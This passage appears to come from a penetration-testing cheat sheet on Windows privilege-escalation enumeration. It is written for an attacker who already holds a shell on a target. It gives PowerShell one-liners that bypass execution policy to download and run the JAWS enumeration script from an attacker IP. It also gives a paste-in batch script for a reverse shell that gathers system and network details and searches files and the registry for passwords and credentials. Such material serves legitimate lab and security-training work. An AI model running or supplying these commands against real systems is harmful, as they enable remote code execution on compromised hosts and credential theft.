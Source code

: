 - Now we can run this from the remote Windows CMD shell:
  `@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/jaws-enum.ps1'))"`
- Or from a Windows Powershell:
  `IEX(New-Object Net.Webclient).downloadString('http://10.10.10.10/jaws-enum.ps1')`

And we should see the following output start to appear:
```CMD
Running J.A.W.S. Enumeration
  - Gathering User Information
  - Gathering Processes, Services and Scheduled Tasks
  - Gathering Installed Software
```

##### CopyAndPasteEnum.bat

No File Upload Required Windows Privlege Escalation Basic Information Gathering (based on the fuzzy security tutorial). Copy and paste the following contents into your remote Windows shell in Kali to generate a quick report:

  ```bat
  echo Windows Privilege Escalation Report - Copy and Paste Version (No file upload required) - Copy and Paste this script into your reverse shell console to create a simple report file.
  @echo --------- BASIC WINDOWS RECON ---------  > report.txt
  timeout 1
  net config Workstation  >> report.txt
  timeout 1
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version" >> report.txt
  timeout 1
  hostname >> report.txt
  timeout 1
  net users >> report.txt
  timeout 1
  ipconfig /all >> report.txt
  timeout 1
  route print >> report.txt
  timeout 1
  arp -A >> report.txt
  timeout 1
  netstat -ano >> report.txt
  timeout 1
  netsh firewall show state >> report.txt	
  timeout 1
  netsh firewall show config >> report.txt
  timeout 1
  schtasks /query /fo LIST /v >> report.txt
  timeout 1
  tasklist /SVC >> report.txt
  timeout 1
  net start >> report.txt
  timeout 1
  DRIVERQUERY >> report.txt
  timeout 1
  reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
  timeout 1
  reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
  timeout 1
  dir /s *pass* == *cred* == *vnc* == *.config* >> report.txt
  timeout 1
  findstr /si password *.xml *.ini *.txt >> report.txt
  timeout 1
  reg query HKLM /f password /t REG_SZ /s >> report.txt
  timeout 1
  reg query HKCU /f password /t REG_SZ /s >> report.txt 
  timeout 1
  ```